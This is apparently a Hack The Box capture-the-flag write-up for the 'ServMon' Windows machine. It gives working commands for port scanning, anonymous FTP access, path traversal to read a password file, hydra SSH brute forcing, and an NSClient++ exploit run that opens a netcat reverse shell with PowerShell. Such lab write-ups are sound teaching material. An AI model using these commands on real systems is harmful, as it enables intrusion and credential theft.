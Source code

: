 ![ServMon](https://labs.hackthebox.com/storage/avatars/2bc1a8dc04b09b8ac2db694f25ccf051.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [del_KZx497Ju](https://app.hackthebox.com/users/82600)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.184 -oG scan
	/opt/extractports scan
	nmap -p21,22,80,135,139,445,5666,6063,6699,8443,49664,49665,49666,49667,49668,49669,49670 -sCV -Pn 10.10.10.184 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/bba39790-5714-412e-8fa8-a2303c16b969)

- In this survey I find the possibility to enumerate by ftp using anonymous credentials.
	
	```python
	ftp 10.10.10.184
		anonymous:anonymous
	```
	
	![image](https://github.com/user-attachments/assets/c535bc4c-ca38-4faa-bac1-f0ea5642bb1e)

	![image](https://github.com/user-attachments/assets/ea7ea863-6b98-480e-87c6-8427b199b7e1)
	
	![image](https://github.com/user-attachments/assets/4cfd5de9-1ed2-413b-9814-ac021f655aec)

- Only with the found files I can't do anything at the moment, I am still looking at the rest of the found ports.
- On port 80 I find nvms-1000 running. When searching for information about this CMS I find a vulnerability that allows to read files by doing a directory path traversal.

	![image](https://github.com/user-attachments/assets/218bd1f4-6cf8-42bb-812e-6d6f519c7d27)

- Making use of this vulnerability and using the information collected in the ftp files found, I manage to read a file that was referenced and contains possible passwords.
	
	```python
	curl http://10.10.10.184/../../../../../../../../Windows/System32/Drivers/etc/hosts  --path-as-is
	curl http://10.10.10.184/../../../../../../../../Users/Nathan/Desktop/Passwords.txt  --path-as-is
	```
	
	![image](https://github.com/user-attachments/assets/5a9aab73-bc9e-486d-a06b-b7d6027d224f)

- I validate the passwords found with the 2 users I know at the moment and find the credentials of one of them.
	
	```python
	hydra -L usernames -P passwords  ssh://10.10.10.184
	```
	
	![image](https://github.com/user-attachments/assets/dfcd3d71-36aa-497a-b763-387a241192ff)
	
- With these credentials I connect to the system via ssh and I manage to read the first flag

	![image](https://github.com/user-attachments/assets/455e2962-a579-45ac-8159-c452ed1527a5)

- When searching through the system files I find one that is not common. NSClient++. When searching for information about this one I find that there is a vulnerability that allows to have RCE once authenticated.

	![image](https://github.com/user-attachments/assets/32212e63-0f50-4785-96f8-c7f33e593d5c)

- Searching through your files I find a password.  I share the port through which this application is running to my system and verify that it is correct.

	```python
	ssh Nadine@10.10.10.184 -L 9999:127.0.0.1:8443
	```

	![image](https://github.com/user-attachments/assets/60f8cd7d-6107-4fd3-a6db-a1dbe30d10cd)

- I try to follow the steps found to exploit this vulnerability but I am not able to due to the inconsistency of the application. I search for a PoC and find one in [exploitdb](https://www.exploit-db.com/exploits/46802). Using it I get an interactive console as nt autority and I manage to read the second flag. 
	
	```python
	python3 48360.txt -t 127.0.0.1 -P 9998 -p ew2XXXXXXXXXOT -c "C:\\temp\\nc64.exe 127.0.0.1 9001 -e powershell"
	```
	
	![image](https://github.com/user-attachments/assets/2c4048ce-ac6a-4ec0-abb0-fddbf166a2a0)
